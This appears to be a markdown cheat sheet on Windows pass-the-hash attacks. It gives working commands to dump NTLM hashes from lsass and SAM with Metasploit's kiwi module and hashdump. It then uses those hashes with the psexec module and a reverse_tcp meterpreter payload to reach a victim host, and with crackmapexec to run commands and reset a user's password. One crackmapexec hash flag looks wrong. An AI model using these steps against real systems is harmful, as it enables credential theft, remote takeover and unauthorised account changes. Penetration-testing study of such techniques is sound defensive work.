 # Pass-The-Hash

## Explanation

- Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.

- We can use multiple tools to facilitate a Pass-the-hash attack :
    - Metasploit PsExec module
    - Crackmapexec

- This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.

## Technics

### With Metasploit framework and kiwi module

1. Migrate into lsass process : 

```text
meterpreter > migrate -N lsass.exe
```

2. Load Kiwi module on Metasploit Framework : 

```text
meterpreter > load kiwi
```

3. Dump all windows users NTLM hashes :

```text
meterpreter > lsa_dump_sam
```

4. Create a new text file, and copy/past NTLM hashes :

```text
vim hashes.txt

Administrator :
Student :
```

5. Next, copy/past LM hash of this users in the same file :

```text
meterpreter > hashdump
```

6. Ctrl+Z for quit, and use PsExec module :

```
msf6 > use exploit/windows/smb/psexec
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LPORT 4444
msf6 > set RHOSTS <victim-ip>
msf6 > set SMBUser Administrator
msf6 > set SMBPass <LM-hash:NTLM-hash>
msf6 > run
```

### With Crackmapexec

```
crackmapexec smb <target-ip> -u <user> -h "NTLM-hash" -x "whoami"
crackmapexec smb <target-ip> -u <user> -h "NTLM-hash" -x "net user <user> <new-password>"
```
